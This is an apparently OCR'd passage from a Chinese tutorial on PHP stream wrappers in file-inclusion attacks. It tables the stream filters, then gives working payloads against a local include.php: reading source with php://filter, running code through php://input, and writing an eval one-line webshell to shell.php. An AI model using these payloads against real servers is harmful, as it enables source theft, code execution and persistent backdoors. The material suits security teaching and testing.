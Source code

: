  

 

| **转换过滤器**                                                    | **作用**                                               |
|-------------------------------------------------------------------|--------------------------------------------------------|
| convert.base64-encode & convert.base64-decode                     | 等同于base64_encode()和base64_decode()，base64编码解码 |
| convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码         |

 

| **压缩过滤器**                    | **作用**                                                                                                                |
|-----------------------------------|-------------------------------------------------------------------------------------------------------------------------|
| zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。                                                                         |

 

| **加密过滤器** | **作用**               |
|----------------|------------------------|
| mcrypt.\*      | libmcrypt 对称加密算法 |
| mdecrypt.\*    | libmcrypt 对称解密算法 |

 

#### **读取文件源码用法**

>     php://filter/read=convert.base64-encode/resource=[文件名]
>
>     http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php  

　

#### **执行php代码用法**

``` php
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```



　　

#### **写入一句话木马用法**

``` php
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>

```



　　
